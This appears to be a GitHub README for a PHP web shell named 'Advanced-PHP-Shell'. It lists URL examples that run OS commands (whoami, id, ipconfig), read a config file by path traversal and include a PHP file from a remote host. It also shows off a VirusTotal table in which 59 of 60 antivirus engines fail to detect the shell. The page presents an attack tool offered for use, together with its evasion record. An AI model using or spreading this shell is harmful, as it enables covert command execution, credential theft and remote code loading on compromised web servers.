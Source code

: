 # Advanced-PHP-Shell
Allow to use native PHP functions and OS commands.


# Usage:

* f=  PHP function.
* p1= First parameter.
* p2= Second parameter.

# Example:
* advsh.php?f=getcwd
* advsh.php?f=scandir&p1=..
* advsh.php?f=system&p1=whoami
* advsh.php?f=system&p1=id
* advsh.php?f=system&p1=ipconfig
* advsh.php?f=hash&y=teste&p1=sha256
* advsh.php?f=copy&p1=teste.php&p2=teste.bkp
* advsh.php?f=readfile&p1=../../../config.php
* advsh.php?f=include&p1=https//www.brztec.com/file.php
* and much more...


# Virus Total Detection
https://www.virustotal.com/gui/file/74a4fb042e5802e1621f27641c497a29f68fcf32f4e37cfaef08190d67246daf/detection

Detection: 01 in 60.

Obs.: bellow is only for reference, check the above link for updates.

* **Tencent:** *BK.YDWebShell.PHP.Smalleval.ek*
* **Acronis (Static ML):** *Undetected*
* **AhnLab-V3:** *Undetected*
* **ALYac:** *Undetected*
* **Antiy-AVL:** *Undetected*
* **Arcabit:** *Undetected*
* **Avast:** *Undetected*
* **AVG:** *Undetected*
* **Avira (no cloud):** *Undetected*
* **Baidu:** *Undetected*
* **BitDefender:** *Undetected*
* **BitDefenderTheta:** *Undetected*
* **Bkav Pro:** *Undetected*
* **ClamAV:** *Undetected*
* **CMC:** *Undetected*
* **Cynet:** *Undetected*
* **Cyren:** *Undetected*
* **DrWeb:** *Undetected*
* **Emsisoft:** *Undetected*
* **eScan:** *Undetected*
* **ESET-NOD32:** *Undetected*
* **F-Secure:** *Undetected*
* **Fortinet:** *Undetected*
* **GData:** *Undetected*
* **Google:** *Undetected*
* **Gridinsoft (no cloud):** *Undetected*
* **Ikarus:** *Undetected*
* **Jiangmin:** *Undetected*
* **K7AntiVirus:** *Undetected*
* **K7GW:** *Undetected*
* **Kaspersky:** *Undetected*
* **Kingsoft:** *Undetected*
* **Lionic:** *Undetected*
* **Malwarebytes:** *Undetected*
* **MAX:** *Undetected*
* **MaxSecure:** *Undetected*
* **McAfee:** *Undetected*
* **McAfee-GW-Edition:** *Undetected*
* **Microsoft:** *Undetected*
* **NANO-Antivirus:** *Undetected*
* **Panda:** *Undetected*
* **QuickHeal:** *Undetected*
* **Rising:** *Undetected*
* **Sangfor Engine Zero:** *Undetected*
* **Sophos:** *Undetected*
* **SUPERAntiSpyware:** *Undetected*
* **Symantec:** *Undetected*
* **TACHYON:** *Undetected*
* **Trellix (FireEye):** *Undetected*
* **TrendMicro:** *Undetected*
* **TrendMicro-HouseCall:** *Undetected*
* **VBA32:** *Undetected*
* **VIPRE:** *Undetected*
* **VirIT:** *Undetected*
* **ViRobot:** *Undetected*
* **Xcitium:** *Undetected*
* **Yandex:** *Undetected*
* **Zillya:** *Undetected*
* **ZoneAlarm by Check Point:** *Undetected*
* **Zoner:** *Undetected*
